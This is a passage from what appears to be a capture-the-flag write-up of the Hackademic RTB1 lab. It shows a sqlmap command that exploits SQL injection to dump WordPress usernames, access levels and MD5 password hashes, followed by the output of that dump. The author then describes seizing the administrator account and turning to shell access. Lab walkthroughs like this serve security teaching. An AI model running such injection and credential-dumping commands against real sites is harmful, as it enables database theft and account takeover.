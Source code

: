 ```
| user_msn            | varchar(100)        |
| user_nicename       | varchar(50)         |
| user_nickname       | varchar(50)         |
| user_pass           | varchar(64)         |
| user_registered     | datetime            |
| user_status         | int(11)             |
| user_url            | varchar(100)        |
| user_yim            | varchar(50)         |
+---------------------+---------------------+

[*] shutting down at 22:36:06

root@bt:/pentest/database/sqlmap# python sqlmap.py --url http://192.168.1.168/Hackademic_RTB1/?cat=0 -D wordpress -T wp_users -C user_pass,user_login,user_level --dump

[*] starting at 22:38:47

[22:38:47] [INFO] resuming back-end DBMS 'mysql' 
[22:38:47] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 13 (Goddard)
web application technology: PHP 5.3.3, Apache 2.2.15
back-end DBMS: MySQL 5.0
[22:38:47] [INFO] fetching entries of column(s) 'user_level, user_login, user_pass' for table 'wp_users' in database 'wordpress'
[22:38:47] [INFO] the SQL query used returns 6 entries
Database: wordpress
Table: wp_users
[6 entries]
+----------------------------------+--------------+------------+
| user_pass                        | user_login   | user_level |
+----------------------------------+--------------+------------+
| 21232f297a57a5a743894a0e4a801fc3 | NickJames    | 1          |
| 50484c19f1afdaf3841a0d821ed393d2 | MaxBucky     | 0          |
| 7cbb3252ba6b7e9c422fac5334d22054 | GeorgeMiller | 10         |
| 8601f6e1028a8e8a966f6c33fcd9aec4 | JasonKonnors | 0          |
| a6e514f9486b83cb53d8d932f9a04292 | TonyBlack    | 0          |
| b986448f0bb9e5e124ca91d3d650f52c | JohnSmith    | 0          |
+----------------------------------+--------------+------------+

[*] shutting down at 22:38:50

root@bt:/pentest/database/sqlmap# 
```

The `user_level` determines their level of access on the Wordpress, with 1 being basic and 10 being administrator.  You can guess which account we went after:

{{< figure src="/images/posts/2012/hrt_2.jpg" >}}

Now we've got an administrative account on the Wordpress.  It's a very basic, very old, Wordpress.  How can we go about getting shell access?
